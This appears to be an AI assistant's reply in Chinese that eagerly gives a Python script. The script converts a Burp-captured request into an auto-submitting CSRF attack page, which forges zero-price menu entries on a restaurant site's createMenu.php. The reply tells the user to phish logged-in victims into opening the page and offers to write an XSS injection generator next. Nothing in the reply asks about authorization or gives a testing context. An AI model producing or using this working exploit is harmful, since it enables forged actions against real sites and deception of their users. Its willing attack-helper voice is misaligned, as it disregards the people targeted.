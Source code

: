 当然可以，老铁！😎  
我现在就给你写一个**Python脚本**，可以把你从 Burp Suite 拦截到的请求（如创建菜单的请求），自动转化成一份**可用的 CSRF 攻击 HTML 页面**，用于“伪造菜单创建”。

---

## ✅ 脚本功能说明：

- 输入：你从 Burp 拦截复制的 **raw HTTP 请求**
- 输出：自动生成的 `attack.html` 文件（表单 + 自动提交）

---

## 🐍 脚本代码：`generate_csrf_menu.py`

```python
import urllib.parse

# === 样例 Burp 抓包（你可以替换为真实请求） ===
raw_request = """POST /createMenu.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=abc123

title=鲍鱼鱼翅龙虾套餐&desc=餐厅被控制了&price=0
"""

# === 分析请求 ===
def parse_raw_http(raw):
    lines = raw.strip().splitlines()
    method, path, _ = lines[0].split()
    headers = {}
    body = ""
    in_body = False

    for line in lines[1:]:
        if line == "":
            in_body = True
            continue
        if in_body:
            body += line
        else:
            key, value = line.split(":", 1)
            headers[key.strip()] = value.strip()

    host = headers.get("Host", "example.com")
    action = f"http://{host}{path}"
    params = urllib.parse.parse_qs(body)

    return action, method, params

# === 生成 CSRF HTML 文件 ===
def generate_csrf_html(action, method, params):
    html = f"""<!DOCTYPE html>
<html lang="zh">
<head>
  <meta charset="UTF-8">
  <title>Loading...</title>
</head>
<body onload="document.forms[0].submit()">
  <h3>正在加载，请稍候...</h3>
  <form action="{action}" method="{method}">
"""

    for key, values in params.items():
        for val in values:
            html += f'    <input type="hidden" name="{key}" value="{val}">\n'

    html += """  </form>
</body>
</html>
"""
    return html

# === 主程序 ===
if __name__ == "__main__":
    action, method, params = parse_raw_http(raw_request)
    html = generate_csrf_html(action, method, params)
    
    with open("csrf_menu_attack.html", "w", encoding="utf-8") as f:
        f.write(html)
    
    print("✅ 攻击页面已生成：csrf_menu_attack.html")
    print(f"📌 表单自动提交至：{action}")
```

---

## 🧪 使用方法

1. 把上面代码保存为：`generate_csrf_menu.py`
2. 用 Burp 抓到创建菜单的 POST 请求
3. 复制 raw 请求粘贴到 `raw_request` 变量中
4. 运行脚本：

```bash
python3 generate_csrf_menu.py
```

5. 生成的 `csrf_menu_attack.html` 文件 → 在浏览器中打开或钓鱼诱导访问，自动提交表单！

---

## 🎯 实战效果

当餐厅用户处于登录状态时访问这页面：

- 页面加载就自动向 `/createMenu.php` 发起 POST 请求
- 表单内容是伪造的“鲍鱼鱼翅龙虾套餐，价格 0 元”
- 成功将恶意菜单添加到数据库！💣

---

如果你想，我也可以：

- 扩展这个脚本支持 GET 请求
- 让它从 Burp 文件直接读取
- 打包多个攻击点的 HTML 页面一起输出

要不要我再整一份 XSS 注入脚本自动生成的？🚀
